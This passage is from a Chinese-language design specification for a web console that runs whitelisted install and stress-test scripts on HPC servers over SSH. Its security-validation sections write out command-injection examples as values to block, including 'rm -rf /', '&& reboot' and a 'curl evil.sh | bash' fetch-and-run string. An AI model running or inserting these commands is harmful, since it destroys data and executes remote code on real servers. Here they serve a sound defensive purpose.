脚本定义需要哪些参数
↓
前端根据参数模板自动渲染表单
↓
用户填写参数
↓
后端校验参数白名单
↓
后端安全地转换为命令行参数
↓
SSH 上传并执行脚本
↓
任务记录保存本次参数
```

---

### 15.2.2 scripts 表增加 params_schema 字段

`scripts` 表需要增加：

```sql
ALTER TABLE scripts ADD COLUMN params_schema TEXT;
```

用途：

```text
保存脚本参数模板，JSON 格式。
前端根据 params_schema 自动生成参数表单。
后端根据 params_schema 校验前端传入的 params。
```

OpenMPI 参数模板示例：

```json
{
  "version": {
    "type": "string",
    "label": "OpenMPI 版本",
    "default": "4.1.6",
    "required": true
  },
  "install_prefix": {
    "type": "string",
    "label": "安装路径",
    "default": "/opt/openmpi-4.1.6-gcc11",
    "required": true
  },
  "compiler": {
    "type": "select",
    "label": "编译器",
    "options": ["gcc", "oneapi"],
    "default": "gcc",
    "required": true
  },
  "make_jobs": {
    "type": "number",
    "label": "并行编译线程",
    "default": 32,
    "required": true
  }
}
```

Stress 压测参数模板示例：

```json
{
  "duration": {
    "type": "number",
    "label": "压测时长（秒）",
    "default": 3600,
    "required": true
  },
  "gpu_ids": {
    "type": "string",
    "label": "GPU 编号",
    "default": "0,1,2,3",
    "required": false
  },
  "output_dir": {
    "type": "string",
    "label": "输出目录",
    "default": "/tmp/stress-report",
    "required": true
  }
}
```

---

### 15.2.3 tasks 表增加 params 字段

`tasks` 表需要增加：

```sql
ALTER TABLE tasks ADD COLUMN params TEXT;
```

用途：

```text
保存本次任务实际执行参数，便于后续审计、复现、排查问题。
```

任务参数示例：

```json
{
  "version": "4.1.6",
  "install_prefix": "/opt/openmpi-4.1.6-gcc11",
  "compiler": "gcc",
  "make_jobs": 32
}
```

---

### 15.2.4 前端动态表单规则

前端选择脚本后：

```text
1. 读取 scripts.params_schema
2. 根据参数类型自动生成表单
3. string → 输入框
4. number → 数字输入框
5. select → 下拉框
6. boolean → 开关
7. path → 路径输入框
8. required=true 的字段必须填写
```

任务执行请求示例：

```json
{
  "server_id": 1,
  "script_id": 3,
  "params": {
    "version": "4.1.6",
    "install_prefix": "/opt/openmpi-4.1.6-gcc11",
    "compiler": "gcc",
    "make_jobs": 32
  }
}
```

---

### 15.2.5 后端参数安全校验规则

后端必须根据 `params_schema` 校验 `params`。

规则：

```text
1. 只允许传入 params_schema 中声明过的参数
2. required=true 的参数必须存在
3. number 类型必须是数字
4. select 类型必须在 options 范围内
5. path 类型禁止包含危险字符
6. 所有参数禁止直接拼接成任意 shell 命令
```

必须禁止：

```text
install_prefix="/opt/openmpi; rm -rf /"
duration="3600 && reboot"
gpu_ids="0,1; curl evil.sh | bash"
```

建议参数只允许以下字符：

```text
字母、数字、点、下划线、中划线、斜杠、逗号
```

---

### 15.2.6 后端执行脚本参数转换规则

后端根据白名单参数生成命令：

```bash
bash script.sh \
  --version "4.1.6" \
  --prefix "/opt/openmpi-4.1.6-gcc11" \
  --compiler "gcc" \
  --make-jobs "32"
```

禁止：

```python
ssh.exec_command("bash script.sh " + user_raw_input)
```

推荐：

```python
args = build_safe_args(params_schema, params)
cmd = ["bash", remote_script_path] + args
```

如果 Paramiko 只能执行字符串命令，必须对参数做严格校验和 shell quote。

---

### 15.2.7 脚本参数写法规范

脚本必须支持标准命令行参数。

示例：OpenMPI 安装脚本

```bash
#!/usr/bin/env bash
set -euo pipefail

VERSION="4.1.6"
INSTALL_PREFIX="/opt/openmpi-4.1.6"
COMPILER="gcc"
MAKE_JOBS="32"

while [[ $# -gt 0 ]]; do
  case "$1" in
    --version)
      VERSION="$2"
      shift 2
      ;;
    --prefix)
      INSTALL_PREFIX="$2"
      shift 2
      ;;
    --compiler)
      COMPILER="$2"
      shift 2
      ;;
    --make-jobs)
      MAKE_JOBS="$2"
      shift 2
      ;;
    *)
      echo "[ERROR] unknown argument: $1"
      exit 1
      ;;
  esac
done

echo "[INFO] OpenMPI version: ${VERSION}"
echo "[INFO] Install prefix: ${INSTALL_PREFIX}"
echo "[INFO] Compiler: ${COMPILER}"
echo "[INFO] Make jobs: ${MAKE_JOBS}"
```

示例：Stress 压测脚本

```bash
#!/usr/bin/env bash
set -euo pipefail

DURATION="3600"
GPU_IDS="0"
OUTPUT_DIR="/tmp/stress-report"

while [[ $# -gt 0 ]]; do
  case "$1" in
    --duration)
      DURATION="$2"
      shift 2
      ;;
    --gpu-ids)
      GPU_IDS="$2"
      shift 2
      ;;
    --output-dir)
      OUTPUT_DIR="$2"
      shift 2
      ;;
    *)
      echo "[ERROR] unknown argument: $1"
      exit 1
      ;;
  esac
done

echo "[INFO] Duration: ${DURATION}"
echo "[INFO] GPU IDs: ${GPU_IDS}"
echo "[INFO] Output dir: ${OUTPUT_DIR}"
```

---

### 15.2.8 第一阶段建议参数字段

| 任务类型 | 建议参数 |
|---|---|
| 基础编译器 | `install_prefix`、`package_source`、`enable_dev_tools` |
| OneAPI | `install_prefix`、`components`、`set_env` |
| OpenMPI | `version`、`install_prefix`、`compiler`、`make_jobs` |
| GPU Driver | `driver_version`、`disable_nouveau`、`allow_reboot` |
| CUDA | `cuda_version`、`install_prefix`、`set_env` |
| GPU Stress | `duration`、`gpu_ids`、`output_dir` |
| CPU Stress | `duration`、`workers`、`output_dir` |
| Memory Stress | `duration`、`memory_percent`、`output_dir` |
| Disk Stress | `duration`、`test_path`、`size`、`output_dir` |

---

## 16. 脚本开发规范

所有安装脚本必须遵守统一规范。

### 16.1 基础模板

```bash
#!/usr/bin/env bash
set -euo pipefail

echo "[INFO] task started: $0"

check_root() {
    if [ "$(id -u)" -ne 0 ]; then
        echo "[ERROR] please run as root"
        exit 1
    fi
}

main() {
    check_root

    echo "[INFO] detecting OS..."
    cat /etc/os-release || true

    echo "[INFO] start install..."

    # 安装逻辑写这里

    echo "[OK] task finished successfully"
}

main "$@"
```

---

### 16.2 日志输出规范

脚本必须使用以下日志前缀：

```text
[INFO]  普通信息
[OK]    成功步骤
[WARN]  警告
[ERROR] 失败
[DEBUG] 调试信息
```

---

### 16.3 脚本幂等规则

脚本必须尽量幂等。

意思是：重复执行不会把系统搞坏。

示例：

```bash
if command -v nvcc >/dev/null 2>&1; then
    echo "[OK] CUDA already installed"
    exit 0
fi
```

---

### 16.4 高风险脚本标记

以下脚本必须标记：

```text
dangerous=true
```

高风险类型：

```text
1. GPU 驱动安装
2. CUDA 驱动级安装
3. 内核模块修改
4. systemctl restart
5. yum remove / apt remove
6. reboot
7. 修改 /etc/profile
8. 修改 /etc/ld.so.conf
9. 修改内核参数
10. 删除系统目录
```

前端执行高风险脚本前必须弹确认框。

---

## 17. 安全设计规则

### 17.1 必须禁止

```text
1. 禁止前端传任意 shell 命令
2. 禁止后端执行用户拼接命令
3. 禁止把 SSH 私钥明文返回给前端
4. 禁止把服务器密码存数据库
5. 禁止普通用户执行 dangerous 脚本
6. 禁止脚本路径由前端直接传入
```

---

### 17.2 脚本白名单机制

只有数据库 `scripts` 表中 `enabled=1` 的脚本可以执行。

执行时必须根据 `script_id` 查数据库，不允许前端传脚本路径。

正确请求：

```json
{
  "server_id": 1,
  "script_id": 3
}
```

错误请求：

```json
{
  "server_id": 1,
  "command": "rm -rf /"
}
```

---

### 17.3 权限模型

第一版可以只做单用户 admin。

后续扩展：

```text
admin      可以管理服务器、脚本、执行高风险任务
operator   可以执行普通任务
viewer     只能查看任务和日志
```

---

## 18. 任务队列与并发设计

### 18.1 第一版队列

第一版可以使用：

```text
Python 内存队列
```

例如：

```text
asyncio.Queue
```

---

### 18.2 后续正式版

后续可以升级为：

```text
Redis + Celery
```

优势：

```text
1. 支持多 Worker
2. 支持任务重试
3. 支持分布式执行
4. 支持任务持久化
```

---

### 18.3 并发规则

```text
1. 不同服务器可以并发执行
2. 同一服务器默认串行执行
3. 高风险任务必须独占服务器
4. 压测任务默认独占服务器
5. 普通检测任务后续可以允许并发
```

---

## 19. 日志设计

### 19.1 日志来源

```text
1. SSH stdout
2. SSH stderr
3. 后端系统日志
4. 任务状态变更日志
```

---

### 19.2 日志存储

日志需要同时：

```text
1. 写入数据库 task_logs
2. 推送到 WebSocket
3. 前端实时显示
```

---

### 19.3 日志格式

```json
{
  "task_id": "task-001",
  "server": "node1",
  "level": "INFO",
  "message": "[INFO] installing CUDA 12.8",
  "timestamp": "2026-06-14 11:20:00"
}
```

---

## 20. 服务器探测功能

服务器探测建议执行以下命令：

```bash
hostname
cat /etc/os-release
uname -r
lscpu | head
free -h
df -h
nvidia-smi || true
which nvcc || true
which mpirun || true
mpirun --version || true
```

探测结果写入：

```text
servers.os_info
servers.gpu_info
servers.status
```

---

## 21. 部署架构

### 21.1 开发环境

```text
frontend: npm run dev
backend: uvicorn main:app --reload
database: SQLite
```

---

### 21.2 生产环境



---

### 21.3 docker-compose 服务

```text
services:
  frontend
  backend
  mysql
  redis 可选
```

---

## 22. 第一阶段 MVP 功能边界

第一版只做这些：

```text
1. 服务器增删改查
2. SSH 连通性测试
3. 脚本列表管理
4. 基础编译器 / OneAPI / OpenMPI / GPU驱动 / CUDA / Stress 压测脚本执行
5. 单服务器执行单脚本
6. 实时日志显示
7. 任务历史记录
8. Server Lock
9. 任务状态机
10. 安装后基础验证命令
```

第一版先不做：

```text
1. 多用户权限
2. 复杂审批
3. 分布式 Worker
4. Ansible 集成
5. 自动回滚
6. 大规模并发
7. Slurm 作业提交
8. Apptainer 镜像构建
9. 科学软件安装模板
```

---

## 23. 第二阶段增强功能

后续再加：

```text
1. 多服务器批量执行
2. 服务器分组
3. Redis + Celery 任务队列
4. 并发 Worker
5. 脚本参数模板
6. 更完整的安装前环境检测
7. 更完整的安装后验证
8. 一键生成环境报告
9. Apptainer 镜像管理
10. Slurm 作业模板管理
11. Ansible 集成
12. 科学软件安装模板
13. 用户权限系统
14. 操作审计
```

---

## 24. 开发优先级

```text
P0:
- 后端 SSH 执行器
- FastAPI 任务接口
- WebSocket 日志
- 前端任务执行页面

P1:
- 服务器管理
- 脚本管理
- 任务历史

P2:
- 用户登录
- 权限管理
- Redis 队列
- 批量执行

P3:
- Ansible 集成
- Apptainer 镜像构建管理
- Slurm 作业提交
```

---

## 25. 高风险点与处理方式

### 25.1 SSH 阻塞

风险：

```text
SSH 执行长时间阻塞，导致后端接口卡死。
```

处理：

```text
1. SSH 执行放到后台任务或 Worker
2. API 只负责创建任务并立即返回 task_id
3. 前端通过 WebSocket 查看日志
```

---

### 25.2 安装脚本卡死

风险：

```text
安装包下载慢、命令等待输入、脚本卡住。
```

处理：

```text
1. 所有脚本禁止交互式输入
2. 使用 -y 或非交互参数
3. 设置任务 timeout
4. 前端提供取消任务按钮
```

---

### 25.3 多任务冲突

风险：

```text
同一服务器同时安装 CUDA 和驱动，可能破坏系统环境。
```

处理：

```text
1. Server Lock
2. 高风险任务独占
3. 同一服务器默认串行
```

---

### 25.4 命令注入

风险：

```text
前端传入恶意 shell 命令。
```

处理：

```text
1. 前端不允许传命令
2. 后端只接受 script_id
3. script_id 必须从数据库白名单查询
```

---

### 25.5 私钥泄露

风险：

```text
SSH 私钥泄露会导致服务器被控制。
```

处理：

```text
1. 私钥只存在后端服务器
2. 不返回给前端
3. 文件权限 chmod 600
4. 后续支持加密存储
```

---

## 26. 给 AI 开发的总提示词

可以直接复制给 Codex / Claude：

```text
请开发一个 HPC 运维自动化控制台，使用 Vue3 + Element Plus + FastAPI + SQLAlchemy + SQLite/MySQL + Paramiko。

系统目标：
通过 Web 页面管理服务器，选择基础编译器、OneAPI、OpenMPI、GPU驱动、CUDA、Stress压测等脚本任务，后端通过 SSH Key 登录目标服务器执行白名单脚本，并通过 WebSocket 实时返回 stdout/stderr 日志。

开发规则：
1. 前端使用 Vue3、Element Plus、Axios、Pinia、Vue Router。
2. 后端使用 FastAPI、SQLAlchemy、Pydantic、Paramiko。
3. 数据库第一版使用 SQLite，后续可切 MySQL。
4. 前端不得直接执行 SSH，不得传任意 shell 命令。
5. 后端只能根据 script_id 执行数据库 scripts 表中的白名单脚本。
6. 所有任务必须有状态：PENDING、RUNNING、SUCCESS、FAILED、CANCELLED、TIMEOUT。
7. 同一台服务器默认只能同时运行一个任务，需要 server lock。
8. 日志通过 WebSocket 实时推送到前端。
9. 脚本必须遵守 [INFO] [OK] [WARN] [ERROR] 日志规范。
10. 第一版只实现服务器管理、脚本管理、任务执行、实时日志、任务历史。
11. SSH 执行必须通过 Paramiko 实现，脚本先 SFTP 上传到目标服务器 /tmp/hpc-control-panel/{task_id}/ 再执行。
12. 高风险脚本需要 dangerous=true 标记，前端执行前必须二次确认。
13. 必须实现脚本参数机制：scripts.params_schema 定义参数模板，tasks.params 保存本次执行参数。
14. 前端根据 params_schema 动态生成参数表单，例如安装路径、版本号、压测时长、GPU编号、输出目录。
15. 后端必须校验 params，只允许传入 params_schema 中声明过的参数，禁止任意命令执行和命令注入。
```

---

## 27. 最终总结

这个项目应该按以下路线实现：

```text
第一阶段：
Web UI + FastAPI + SQLite + Paramiko + WebSocket，实现单服务器单脚本执行、脚本参数传递、实时日志和任务记录，优先覆盖基础编译器、OneAPI、OpenMPI、GPU驱动、CUDA、Stress压测。

第二阶段：
增加任务队列、批量执行、服务器分组、脚本参数模板、安装前后验证和环境报告。

第三阶段：
接入 Apptainer 镜像管理、Slurm 作业提交、Ansible 编排、科学软件安装模板、权限审计。
```

核心原则：

```text
1. 简单优先
2. 白名单执行
3. 支持脚本参数
4. 实时日志
5. 状态可追踪
6. 高风险任务必须确认
7. 同一服务器默认串行执行
```
